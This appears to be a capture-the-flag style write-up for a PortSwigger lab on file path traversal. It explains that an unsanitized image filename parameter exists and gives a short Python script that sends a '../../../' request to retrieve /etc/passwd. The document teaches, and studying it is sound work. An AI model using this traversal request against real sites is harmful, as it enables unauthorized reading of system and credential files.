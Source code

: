 ```yaml
---
title: File path traversal, simple case
tags:
  - web-app
  - path
  - traversal
  - lfi
  - local
  - file
  - inclusion
---
```


<a href="https://portswigger.net/web-security/file-path-traversal/lab-simple/">
1. File path traversal, simple case</a>

We're asked to retrieve /etc/passwd from a machine through a vulnerable web
application that contains a path traversal vulnerability. We discover the
vulnerability by observing how the images are being loaded for the web
application. We notice the "images" endpoint for this web application allows us
to provide a query for "filename" - no sanitization is being conducted for
queries provided to this endpoint.

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --f /etc/passwd

from argparse import ArgumentParser

import requests


def solve(url: str, filename: str) -> None:
    r = requests.get(f"{url.rstrip('/')}/image?filename=../../../{filename}")

    with open("1.download", "wb") as f:
        f.write(r.content)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--f", "--filename", dest="filename")
    args = parser.parse_args()
    solve(args.url, args.filename)


if __name__ == "__main__":
    main()
```
